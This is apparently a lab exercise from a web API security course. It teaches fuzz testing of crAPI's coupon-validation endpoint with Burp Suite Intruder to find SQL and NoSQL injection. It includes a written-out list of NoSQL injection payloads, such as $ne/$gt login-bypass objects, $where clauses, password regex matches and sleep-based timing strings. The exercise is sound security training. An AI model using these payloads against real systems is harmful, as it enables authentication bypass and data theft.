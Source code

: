 # crAPI Fuzzing input 
The purpose of these exercise is to introduce the concept of _Fuzz testing_.
Fuzz testing is a technique where input data that is either invalid, unexpected or random
is used as input for an application. The fuzz test is automated by software, which provide
a fast way of inputting a lot of different data.
  
There are 2 overall approaches to fuzz data: Random generated data (dynamic combinations of characters, numbers and so on), and
using premade wordlists. The latter is  by far the fastest approach, and the most suitable for fuzz testing web applications and alike.
  
In previous exercises you have already encountered and used fuzz testing. The dictionary attack you used for basic authentication is
fuzz test approach, using data from a wordlist. The approach for API enumeration also depended on fuzzing the URL path.    
A similar approach can be used for discovering potential vulnerabilities in a web application, by fuzzing the body of a request. 
In these  exercises we will use this approach to discover potentiel SQL Injection vulnerabilities.


## prerequisites
Prior to starting this exercise you should have completed [Exercise 6 - basic authentication attacks](6_Basic_Token_Attacks.md),
to ensure you have experience with fuzzing tools (E.g. Burp suite intruder).

## Discovering possible SQL injection vulnerability with fuzzing
In this exercise you will attempt to discover (not abuse) a SQL (or NoSQL) vulnerability using fuzzing.
crAPI have the option of redeeming discount coupons, let try and see if we can abuse that endpoint.
  
1. In Burp suite, Capture at request for coupon validation
2. Send the request to intruder
3. Set the payload to be the value of _coupon_ .
4. Use the wordlist Generic-SQLI from seclists as payload
5. Observe to responses, what are the baseline lengths and response codes?, which should be ignored?
The general pattern to be observed here, is which content length should be ignored, and which response
code with this content length should be ignored. 
  
If there is no hits, maybe they are not using a SQL database. Let try with some NoSql queries also.

_With the NOsql injection attack, Encapsulating shuold be omitted from the payload in intruder" "_

1. Create a small wordlist for noSQL, with the values below:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
{"$ne": null}

```
2. Set the payload to the created wordlist file (clear the payload before adding the new file, or else this will take a while)
3. Execute and observe, which create status codes not similar to the baseline?

You should discover at least 1 potential vulnerability. But we will not attempt to abuse this yet.




